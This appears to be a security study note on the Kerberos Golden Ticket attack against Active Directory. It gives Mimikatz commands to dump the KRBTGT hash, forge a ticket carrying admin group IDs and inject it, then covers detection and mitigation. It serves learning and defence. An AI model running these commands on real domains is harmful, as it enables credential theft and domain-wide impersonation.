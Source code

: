 :PROPERTIES:
:ID:       765f95f9-1043-4e3a-8145-4e7d49834e32
:END:
#+title: Golden Ticket
#+filetags: :activeDirectory:kerberos:
#+hugo_base_dir:../


* Golden Ticket
A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the KRBTGT account’s NTLM hash. Once created, it can be used to impersonate any user in the domain, including domain admins, and grants unlimited access to services in the domain.


** Overview
- Forged TGT signed with the KRBTGT hash
- Bypasses domain authentication controls
- Can impersonate any user in the domain

** Prerequisites
- SYSTEM or Domain Admin privileges on a domain-joined machine
- Access to the NTLM hash of the KRBTGT account
- Knowledge of:
  - Domain SID
  - Domain name
  - (Optional) actual usernames

** Key Concepts
- *KRBTGT account*: Used by KDC to sign/encrypt TGTs
- *SID*: Used to tie forged ticket to domain
- *TGT*: Ticket Granting Ticket (used to request service tickets)

** Mimikatz Commands

*** Dump KRBTGT Hash
#+begin_src powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
#+end_src

Look for:
Hash NTLM: a2c0b1f65a098dc5b3e3479e9d88cb5e

*** Get Domain SID
#+begin_src powershell
whoami /user
#+end_src

Use everything before the last `-` as the domain SID:
S-1-5-21-1234567890-2345678901-345678901

*** Create and Inject Golden Ticket
#+begin_src powershell
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /krbtgt:a2c0b1f65a098dc5b3e3479e9d88cb5e /id:500 /groups:512,513,518,519 /ptt
#+end_src

Explanation:
- `/user`: Target username (can be fake)
- `/domain`: Target domain
- `/sid`: Domain SID
- `/krbtgt`: Hash from lsadump
- `/id=500`: RID of user (500 = built-in Administrator)
- `/groups`: Common group SIDs:
  - 512 – Domain Admins
  - 513 – Domain Users
  - 518 – Schema Admins
  - 519 – Enterprise Admins
- `/ptt`: Pass-the-ticket (inject directly into memory)

*** Validate Ticket
#+begin_src powershell
whoami
whoami /groups
klist
#+end_src

** Impact
- TGTs can be valid for years (custom expiration)
- Allows full domain persistence and stealthy lateral movement
- Tickets are trusted by all Kerberos-enabled services

** Detection
- Look for TGTs without preceding AS-REQ (Event ID 4768 missing)
- Unusual ticket lifetimes (e.g. 10-year validity)
- Logins from accounts that don’t exist
- Event ID 4769 anomalies

** Mitigation
- Reset KRBTGT password twice
- Rotate domain admin credentials regularly
- Monitor use of high-privilege accounts
- Implement tiered access (admin tiers)
- Use Protected Users group and managed service accounts

** References
- https://adsecurity.org/?p=1515
- https://www.harmj0y.net/blog/redteaming/kerberos-attacks-part-1/
- https://learn.microsoft.com/en-us/windows-server/security/kerberos/golden-ticket
